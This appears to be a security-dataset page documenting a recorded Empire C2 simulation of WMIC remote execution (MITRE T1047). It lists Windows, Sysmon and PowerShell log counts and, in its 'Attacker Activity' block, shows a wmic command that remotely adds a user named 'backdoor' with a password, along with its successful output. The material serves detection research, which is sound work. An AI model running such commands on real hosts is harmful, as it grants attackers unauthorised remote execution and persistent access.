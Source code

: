 # Empire WMIC Add User Backdoor

Adversaries can use wmic to remotely execute code and add a backdoor user for persistence.

## Technique(s) ID

T1047

## Creators

Roberto Rodriguez [@Cyb3rWard0g](https://twitter.com/Cyb3rWard0g)

## Dataset

[empire_wmic_add_user.tar.gz](./empire_wmic_add_user.tar.gz)

## Network Environment

Shire

## Time Taken

2019-05-18231333

## About this file

| log_name                                   | source_name                         | task                                                   |   record_number |
|--------------------------------------------|-------------------------------------|--------------------------------------------------------|-----------------|
| Windows PowerShell                         | PowerShell                          | Pipeline Execution Details                             |             578 |
| Security                                   | Microsoft-Windows-Security-Auditing | Filtering Platform Connection                          |             193 |
| Security                                   | Microsoft-Windows-Security-Auditing | Token Right Adjusted Events                            |             129 |
| Security                                   | Microsoft-Windows-Security-Auditing | Registry                                               |              32 |
| Security                                   | Microsoft-Windows-Security-Auditing | Detailed File Share                                    |              26 |
| Security                                   | Microsoft-Windows-Security-Auditing | Logon                                                  |              25 |
| Security                                   | Microsoft-Windows-Security-Auditing | Group Membership                                       |              24 |
| Security                                   | Microsoft-Windows-Security-Auditing | Logoff                                                 |              22 |
| Security                                   | Microsoft-Windows-Security-Auditing | Special Logon                                          |              12 |
| Security                                   | Microsoft-Windows-Security-Auditing | Handle Manipulation                                    |               8 |
| Security                                   | Microsoft-Windows-Security-Auditing | Process Termination                                    |               7 |
| Security                                   | Microsoft-Windows-Security-Auditing | Process Creation                                       |               6 |
| Security                                   | Microsoft-Windows-Security-Auditing | Sensitive Privilege Use                                |               6 |
| Security                                   | Microsoft-Windows-Security-Auditing | Authorization Policy Change                            |               4 |
| Security                                   | Microsoft-Windows-Security-Auditing | File Share                                             |               3 |
| Security                                   | Microsoft-Windows-Security-Auditing | User Account Management                                |               3 |
| Security                                   | Microsoft-Windows-Security-Auditing | Kerberos Service Ticket Operations                     |               2 |
| Security                                   | Microsoft-Windows-Security-Auditing | Security Group Management                              |               2 |
| Security                                   | Microsoft-Windows-Security-Auditing | Kerberos Authentication Service                        |               1 |
| Security                                   | Microsoft-Windows-Security-Auditing | Other Object Access Events                             |               1 |
| Security                                   | Microsoft-Windows-Security-Auditing | SAM                                                    |               1 |
| Microsoft-Windows-WMI-Activity/Operational | Microsoft-Windows-WMI-Activity      | na                                                     |               4 |
| Microsoft-Windows-Sysmon/Operational       | Microsoft-Windows-Sysmon            | Process accessed (rule: ProcessAccess)                 |             289 |
| Microsoft-Windows-Sysmon/Operational       | Microsoft-Windows-Sysmon            | Image loaded (rule: ImageLoad)                         |             212 |
| Microsoft-Windows-Sysmon/Operational       | Microsoft-Windows-Sysmon            | Network connection detected (rule: NetworkConnect)     |             178 |
| Microsoft-Windows-Sysmon/Operational       | Microsoft-Windows-Sysmon            | Registry object added or deleted (rule: RegistryEvent) |             138 |
| Microsoft-Windows-Sysmon/Operational       | Microsoft-Windows-Sysmon            | Pipe Connected (rule: PipeEvent)                       |              30 |
| Microsoft-Windows-Sysmon/Operational       | Microsoft-Windows-Sysmon            | File created (rule: FileCreate)                        |              18 |
| Microsoft-Windows-Sysmon/Operational       | Microsoft-Windows-Sysmon            | Process terminated (rule: ProcessTerminate)            |               7 |
| Microsoft-Windows-Sysmon/Operational       | Microsoft-Windows-Sysmon            | Process Create (rule: ProcessCreate)                   |               6 |
| Microsoft-Windows-Sysmon/Operational       | Microsoft-Windows-Sysmon            | Registry value set (rule: RegistryEvent)               |               4 |
| Microsoft-Windows-Sysmon/Operational       | Microsoft-Windows-Sysmon            | Pipe Created (rule: PipeEvent)                         |               1 |
| Microsoft-Windows-PowerShell/Operational   | Microsoft-Windows-PowerShell        | Executing Pipeline                                     |             481 |

## Attacker Activity

```
(Empire: V6W3TH8Y) > shell wmic /node:IT001 process call create "net user /add backdoor pa$$w0rd1"
[*] Tasked V6W3TH8Y to run TASK_SHELL
[*] Agent V6W3TH8Y tasked with task ID 12
(Empire: V6W3TH8Y) > Executing (Win32_Process)->Create()

Method execution successful.

Out Parameters:
instance of __PARAMETERS
{
	ProcessId = 6580;
	ReturnValue = 0;
};

..Command execution completed.

(Empire: V6W3TH8Y) >
```